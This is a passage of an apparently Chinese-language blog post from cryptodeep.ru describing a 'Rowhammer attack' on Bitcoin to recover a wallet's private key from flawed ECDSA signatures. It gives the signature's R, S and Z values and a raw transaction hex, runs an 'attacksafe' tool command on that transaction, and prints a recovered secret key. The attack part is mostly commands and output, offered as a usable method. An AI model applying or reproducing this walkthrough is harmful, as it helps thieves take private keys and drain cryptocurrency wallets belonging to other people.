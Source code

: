 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-153-1024x248.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1276"/></figure>



<pre class="wp-block-code"><code>R = 0x682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e88
S = 0x052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9
Z = 0x395e27708f075827fc7b179382a2a5e13c7649a046a89f2937bc5754349cc05d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-154-1024x298.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1278"/></figure>



<p>我們發起了這次攻擊<code>-tool rowhammer_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-155-1024x454.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1280"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x093bf9a5eb46ddeff6bcf94a326d00f89bc0ce6cbada4c5897758550eae10383
